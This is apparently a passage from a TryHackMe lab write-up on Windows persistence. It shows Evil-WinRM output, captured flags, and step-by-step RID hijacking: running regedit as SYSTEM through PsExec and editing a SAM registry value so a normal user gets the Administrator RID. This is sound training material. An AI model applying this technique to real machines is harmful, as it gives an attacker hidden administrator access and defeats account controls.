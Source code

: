 ```powershell
Last logon                   7/27/2024 10:12:31 AM

Logon hours allowed          All

Local Group Memberships      *Users
Global Group memberships     *None
The command completed successfully.

*Evil-WinRM* PS C:\Users\thmuser2\Documents> C:\flags\flag2.exe
THM{IM_JUST_A_NORMAL_USER}
```

## RID Hijacking
When we create a user we get an identifier for it called the ***Relative ID(RID)***. The `RID` is the last bits of the SID
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> wmic useraccount get name,sid
Name                SID

Administrator       S-1-5-21-1966530601-3185510712-10604624-500

DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503

Guest               S-1-5-21-1966530601-3185510712-10604624-501

thmuser0            S-1-5-21-1966530601-3185510712-10604624-1011

thmuser1            S-1-5-21-1966530601-3185510712-10604624-1008

thmuser2            S-1-5-21-1966530601-3185510712-10604624-1009

thmuser3            S-1-5-21-1966530601-3185510712-10604624-1010

thmuser4            S-1-5-21-1966530601-3185510712-10604624-1013

WDAGUtilityAccount  S-1-5-21-1966530601-3185510712-10604624-504
```

For this flag we want to add the `500` RID to `THMuser3` but we will need to use the **SYSTEM** account to do this. The lab has psexec on it which will allows to do this, it may be helpful to upload psexec if you obtain an admin account for this instance.
*This didn't work using WINRM* but modifications to modify it from an admin session may be possible
```powershell
*Evil-WinRM* PS C:\tools\pstools> PsExec64.exe -i -s regedit
```

Modify the Following Reg
Address: `Computer\HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003F2`
key: `F`
Value(Original):
```
F2 03
```
Value New:
```
F4 01

(Ensure that the F2 03 is removed)
```

Now we can use reminna to RDP to the box using the thmuser3 creds to hijack the Admin RDP session:
```powershell
C:\flags\flag3.exe
THM{TRUST_ME_IM_AN_ADMIN}
```